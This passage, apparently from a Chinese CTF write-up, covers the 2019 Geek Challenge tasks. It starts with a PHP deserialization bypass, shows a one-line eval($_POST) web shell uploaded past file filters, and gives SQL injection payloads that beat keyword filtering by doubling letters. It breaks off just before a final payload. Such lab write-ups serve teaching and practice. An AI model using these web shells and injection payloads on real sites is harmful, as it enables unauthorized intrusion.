 ```php
$a = new Name("admin","100");
$a = serialize($a);
$a = str_replace(2,3,$a);
echo urlencode($a);
?>
```

## [极客大挑战 2019]Upload

文件上传，绕过

![image-20210405145627325](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405145627.png)

```php
<script language="php">
eval($_POST[1])
</script>
```

但没有显示路径，猜测路劲，`/upload` ,发现目录泄露，确实存在，

连接一句话。

![image-20210405145723595](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405145723.png)

## [极客大挑战 2019]BabySQL

用户名密码`admin'or1--+  /   123456` 

直接报错。

```txt
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1--' and password='123456'' at line 1
```

构造万能注入有问题？

发现过滤了 `or`

测试用户名`admin' or 11or11` 但是回显错误`'1111' and password='123456''` 说明被过滤了。 双写成功绕过

后续发现用户名出不太好注入，转到密码处注入。

密码处`123456' oorr '1'='1`

![image-20210405151053315](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405151053.png)

测试还过滤了`by ， union , select, from , where , or` ,注释--+ ，空格也被过滤为空了。

判断列为3

```txt
/check.php?username=admin&password=1'+oorrder+bbyy+3%23
```

payload
